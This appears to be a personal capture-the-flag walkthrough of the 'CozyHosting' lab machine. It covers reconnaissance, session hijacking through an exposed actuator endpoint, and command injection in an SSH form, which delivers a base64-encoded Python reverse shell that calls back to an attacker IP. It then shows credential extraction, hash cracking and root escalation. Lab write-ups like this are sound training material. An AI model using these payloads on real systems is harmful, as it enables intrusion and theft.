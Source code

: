 #### Nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

---

#### HTTP

- no `robots.txt` file
- Found a username at 
```
|   |
|---|
|South Jakarta City 12120,|
||Jakarta, Indonesia <br><br>|
||<strong>Phone:</strong> +62 5589 55488 55<br>|
||<strong>Email:</strong> info@cozyhosting.htb<br>|
```


- Bootstrap vulns not found
- Easy admin template default creds not there

- Ferox gives this
```
200       97l      196w        0c http://cozyhosting.htb/login
200      285l      745w        0c http://cozyhosting.htb/index
401        1l        1w        0c http://cozyhosting.htb/admin
204        0l        0w        0c http://cozyhosting.htb/logout
500        1l        1w        0c http://cozyhosting.htb/error
```

- Tried to find any VHOSTS using ffuf but nothing

```
 ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ -u http://cozyhosting.htb/ -H 'Host: FUZZ.cozyhosting.htb' -fs 178

```


- Used writeup and found out new tool - [[Dirsearch]]
```
dirsearch -u http://cozyhosting.htb/
```

- we get a directory with session ID for username `kanderson`
```
[19:55:41] 200 -  398B  - /actuator/sessions
```

```
"3225008914AD3A3BA1E05AE47B002A09":"kanderson"}
```

- changed by `JSESSIONID` in browser console and logged in as `K. anderson`

---

#### Getting Foothold


- We note this on dashbaord
```
|   |
|---|
|or Cozy Scanner to connect the private key that you received upon registration should be|
||included in your host's .ssh/authorised_keys file.|
```

- Additional thing to note

![[Pasted image 20231227202613.png]]

- Tried the following `Hostname` and `Usernames`
```
host as 10.10.11.230

and username as anderson,root,admin
```

non worked

- Found this on `http://cozyhosting.htb/actuator/env`, so the username is probable 6 characters long. A hint maybe?
```
user.name":{"value":"******"},
```

- Also noticed that upon submission, the deatils are sent on `POST /executessh HTTP/1.1` with data as `host=localhost&username=admin`

- Also tried to use ffuf to find any usernames 
```
ffuf -w /usr/share/wordlists/rockyou.txt:FUZZ  -u http://cozyhosting.htb/executessh -X POST -d 'host=localhost&username=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -H "Cookie: JSESSIONID=3225008914AD3A3BA1E05AE47B002A09" -fc 302
```
no luck

- Tried `Host:cozyadmin `  and `username:anderson`, got this error
```
#### The host was not added!

ssh: Could not resolve hostname cozyadmin: Temporary failure in name resolution
```


- Tried `host=10.10.14.89&username=admin|whoami`
```
#### The host was not added!

/bin/bash: line 1: whoami@10.10.14.89: command not foundssh: Could not resolve hostname admin: Temporary failure in name resolution
```

- Used writeup here
https://blog.213.se/cozyhosting-hackthebox/

- command injection vuln in username tab, below text explains how it may work
```
// Without -l
$ ssh -i key <username>@<hostname>
// With -l
$ ssh -i key -l <username> <hostname>
```


- Directly echoing the shellgen python paylod in base64 was not working. I have to open a text editor, paste the payload. Use `cat filename | base64` to get base64 version of payload

```
echo "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.89",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'" | base64



cat ferox-http_cozyhosting_htb_ | base64

```

- Value i put in `username` field

```
;echo${IFS}cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0Ljg5Iiw0NDQ0KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7IG9zLmR1cDIocy5maWxlbm8oKSwyKTtwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vc2giLCItaSJdKTsnCg==|base64${IFS}-d|/bin/bash;
```

- We get a shell as 
```
app@cozyhosting:/$ id
id
uid=1001(app) gid=1001(app) groups=1001(app)
```

---


#### Priv ESC - 1

- Only usefull thing we get is a jar file, used writeup again.

- installed .jar file viewer(Java decompiler)
```
sudo apt install jd-gui
```

- got the jar file into my system with python and opened the jar file

```
jd-gui cloudhosting-0.0.1.jar
```

- We get a set of creds
```
spring.datasource.username=postgres  
spring.datasource.password=Vg&nvzAQ7XxR
```

- used this resource https://www.youtube.com/watch?v=B6lqMnGIr-0

- Used some found postgresql commands

```
postgres=# \l - to get list of databases
```

[[Postgresql commands]]


- we get this
```
kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admi
```

- we get it cracked on hashes.com
```
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

- we can now login as `josh:manchesterunited`

- We easily get root using `sudo ssh`

- Flags

```
josh@cozyhosting:~$ cat user.txt
cat user.txt
de5b87799486f5247c5681733b881766


cat root.txt
dc4e39c718eaf357c6cbdc6222c89686
```


---


[[port 22 and 80 are open but no leads]]

[[Potential command injections in webapp]]

